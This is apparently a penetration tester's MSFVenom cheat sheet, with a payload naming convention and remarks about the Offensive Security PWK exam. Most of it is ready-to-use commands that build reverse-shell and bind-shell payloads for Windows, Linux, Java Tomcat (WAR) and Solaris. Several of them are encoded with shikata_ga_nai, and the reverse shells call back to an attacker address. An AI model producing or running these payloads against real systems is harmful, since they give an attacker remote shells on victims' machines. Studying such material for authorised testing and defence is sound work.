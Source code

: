 # MSFVenom Cheat Sheet
This sheet is for all of the use-case scenarios in which I have and will use MSFVenom during a penetration test for generating payloads for systems. One ting to note, is that these payloads can be used more than once, obviously. I would recommend not re-generating a payload each time you compromise a service on a target server. Use a naming convention, such as:

`OS`+`TYPE`+`PORT`.extension

For instance, a Linux ELF binary, Bind Shell, Binds to port 4567 would be, `LinBind4567.elf`. Windows ELF binary, Reverse Meterpreter, returns to port 5555 would be, `WinRevMeter5555.exe`. Keep these payloads readily available as tie is of the essence. 

If you are working the Offensive Security PWK labs, make sure that you don't use Meterpreter when possible as they do not condone it and it is not allowed in the exam. Hey, if it's confusing - think about it this way, some people still buy vinyl records, I guess nostalgia and doing things by hand is their thing. 

## WINDOWS
This section is for all Windows binary creation techniques used with MSFVenom
### Meterpreter Reverse
To make the victim server or system connect back to the attacker and send meterpreter to be spawned by the handler running on the attacker machine.
1. Generate the MSFVenom Reverse Meterpreter payload:

`./msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -b '\x00' -e x86/shikata_ga_nai -f exe -o /ftphome/shell.exe`

## LINUX
This section is for all LINUX binary creation techniques used with MSFVenom
### Meterpreter Reverse
`./msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=5555 -a x86 --platform=linux -f elf -b '\x00' -o shell.o`
### Bind Shell Port 4567
`./msfvenom --platform=linux --payload=linux/x86/shell_bind_tcp -e x86/shikata_ga_nai -b '\x00' -f elf LPORT=4567 > LinBind4567.elf`

## JAVA TOMCAT
### .WAR File
`./msfvenom --platform=(OS TYPE) --payload=java/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -f shell.war`

## SunOS (Solaris)
### Elf File
`/msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf`
